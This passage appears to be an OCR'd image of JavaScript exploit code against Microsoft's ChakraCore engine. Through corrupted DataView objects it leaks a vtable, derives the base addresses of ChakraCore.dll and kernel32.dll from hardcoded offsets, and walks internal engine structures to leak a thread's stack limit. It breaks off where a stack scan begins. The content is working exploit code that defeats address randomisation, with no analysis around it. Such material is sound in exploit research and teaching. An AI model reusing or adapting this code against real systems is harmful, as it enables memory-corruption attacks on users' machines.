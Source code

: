 ```javascript
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));

    // Leak type->javascriptLibrary (lcoated at type+0x8)
    javascriptLibrary = read64(typeLo+0x8, typeHigh);

    // Leak type->javascriptLibrary->scriptContext (located at javascriptLibrary+0x450)
    scriptContext = read64(javascriptLibrary[0]+0x450, javascriptLibrary[1]);

    // Leak type->javascripLibrary->scriptContext->threadContext
    threadContext = read64(scriptContext[0]+0x3b8, scriptContext[1]);

    // Leak type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread (located at threadContext+0xc8)
    stackAddress = read64(threadContext[0]+0xc8, threadContext[1]);

    // Print update
    print("[+] Leaked stack from type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread!");
    print("[+] Stack leak: 0x" + hex(stackAddress[1]) + hex(stackAddress[0]));

    // Compute the stack limit for the current thread and store it in an array
    var stackLeak = new Uint32Array(0x10);
    stackLeak[0] = stackAddress[0] + 0xed000;
    stackLeak[1] = stackAddress[1];

    // Print update
    print("[+] Stack limit: 0x" + hex(stackLeak[1]) + hex(stackLeak[0]));

    // Scan the stack
```